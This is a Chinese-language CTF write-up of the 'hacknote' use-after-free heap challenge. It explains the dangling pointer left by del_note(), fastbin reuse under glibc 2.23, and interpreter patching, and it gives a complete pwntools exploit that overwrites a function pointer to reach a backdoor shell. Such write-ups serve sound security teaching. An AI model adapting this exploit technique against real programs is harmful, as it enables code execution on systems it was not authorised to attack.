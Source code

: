 ```yaml
---
title: 「PWN」堆的第一次尝试 - UseAfterFree
date: 2022-03-14 21:25:51
tags: ['CTF', 'Pwn', ]
authors: [nova]
categories: ['CTF']
---
```


磨磨蹭蹭这么久也总算是入HEAP的坑了

感谢Ayoung不开之恩（bushi）



先来看一下最简单的`Use After Free`利用，对堆的知识需求很低。明天估计会写一个`Double Free + Unlink`的

用的是`CTF-WIKI`的原题[hacknote](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/heap/use_after_free/hitcon-training-hacknote/hacknote)

<!--truncate-->

# Pwntools使用不同的`libc`作为动态解释器的方法

这里提一下中途遇到的坑。`libc-2.31`对堆的回收机制有了不少改变，因此在一开始根据`CTF-WIKI`的方法调试的时候行不通。因此写一下更换动态解释器的方法。

首先需要两个工具，[glibc-all-in-all](https://github.com/matrix1001/glibc-all-in-one)和[patchelf](https://github.com/NixOS/patchelf)

安装方法自行查看`README.md`不多赘述



下载对应的`libc`后，使用`patchelf`对`ELF`文件进行解释

```sh
patchelf --set-interpreter /path/to/libc/libc-2.23.so --set-rpath /path/to/libc/ ./binary_file_name

# For Example: patchelf --set-rpath /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ --set-interpreter /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ./use_after_free
```

## 

# Use After Free

引起这个漏洞的原因主要是`dangling pointer` —— 在`free()`后内存指针没有被设置为NULL。

如果此时其他代码修改了这段内存的内容的话，再次使用这段内存就会出现问题。

##  Source

```sh
gcc -m64 -fno-stack-protector -no-pie -z execstack -g use_after_free.c -o use_after_free 
# Make
```

保护全关、64位

![struct_note](https://cdn.novanoir.moe/img/image-20220314214330300.png)

程序定义了一个结构体，定义了一个`printnote`的指针指向`print_note_content`方法以及一个`content`的指针。

![add_note()](https://cdn.novanoir.moe/img/image-20220314214555940.png)

看一下`add_note()`的实现：首先`malloc`了一个`struct note`，也就是16字节的堆。在这之后，为`content`申请了`size`字节的堆。

![del_note()](https://cdn.novanoir.moe/img/image-20220314214818884.png)

注意看`del_note()`。在删除节点后，`count`没有变化——这一方面限制了我们`add_note()`的次数，另一方面也给我们的漏洞利用提供了便利。同时，我们可以发现`free`之后`notelist[idx]`并没有置为`NULL`，这便给我们的`Use After Free`带来了可能。

![print_note()](https://cdn.novanoir.moe/img/image-20220314215110776.png)

可以看出，`print_note()`调用了`notelist[idx]->printnote(notelist[idx])`方法，假如我们能把`notelist[idx]->printnote`的内存修改了的话，也就能做到执行后门函数的效果了。



## Exploit

因为`struct note`是固定`0x20`大小的`chunk`，所以我们主要思考`fastbins`相关的利用

因为`fastbins`维护了`0x20~0x80`的数个链表，且有后进先出的机制。我们不妨这样思考：

倘若我们申请两个`0x20`的note记为`note1`、`note2`，此时我们的程序应该有4个堆——两个大小为`0x20`的`note1_struct_note`和`note2_struct_note`以及两个大小为`0x30`的`note1`和`note2`（不计算`PREV_IN_USE`的一字节）

这时我们将两个note全部释放，则`fastbisn`中此时应该是这样的

```sh
fastbins:
	0x20: note2_struct_note_addr -> note1_struct_note_addr
	0x30: note2 -> note1
```

如果我们此时再申请一个`0x10`的note`note3`呢？由`fastbins`的回收利用机制我们可以想到

第一个`note2_struct_note_addr`被分配给了`note3_struct_note_addr`，而第二个`note1_struct_note_addr`则被分配给了我们可控的`note3`

这时，如果我们将`note3`的`content`改为后门函数，并执行`print_note(0)`

——如你所料的，后门函数被执行了。



```python
from pwn import *

sh = process(["./use_after_free"])


def add_note(size, content):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"1")
    sh.recvuntil(b"Note size :")
    sh.sendline(str(size).encode())
    sh.recvuntil(b"Content :")
    sh.sendline(content)


def delete_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"2")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())


def print_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"3")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())


# gdb.attach(sh)
add_note(32, b"aaaa")
add_note(32, b"bbbb")
delete_note(0)
delete_note(1)
add_note(16, p64(0x4015f9)) # addr of magic()
print_note(0)
sh.interactive()
```





## GDB

以上只是理论知识，没有`GDB`实际调过确实是一知半解。

根据上面的exp，我们分别在第二个`add_note()`和第二个`delete_note()`以及最后一个`add_note()`下调试看看

![heap after adding](https://cdn.novanoir.moe/img/image-20220314221552787.png)

![heap after adding](https://cdn.novanoir.moe/img/image-20220314221633396.png)

`0x401256`是`print_note_content()`的地址，`0xd04030`和`0xd04080`是`content`的地址

![heap after deleting](https://cdn.novanoir.moe/img/image-20220314221804318.png)

![heap after deleting](https://cdn.novanoir.moe/img/image-20220314221824810.png)

![heap after deleting](https://cdn.novanoir.moe/img/image-20220314221944311.png)

可以看出，不同大小的链表进入了不同的`fastbins`中。



![heap final](https://cdn.novanoir.moe/img/image-20220314222135890.png)

![heap final](https://cdn.novanoir.moe/img/image-20220314222201810.png)

![heap final](https://cdn.novanoir.moe/img/image-20220314222221269.png)

最后一次添加之后，我们发现：`fastbins`中的两个`0x20`大小的堆被回收利用了！且作为`content`的`0x4015f9`的后门函数地址已经写到了一开始`print_note_content()`的地方



此时运行`print_note()`，后门函数便执行了

![Shell!](https://cdn.novanoir.moe/img/image-20220314222613059.png)

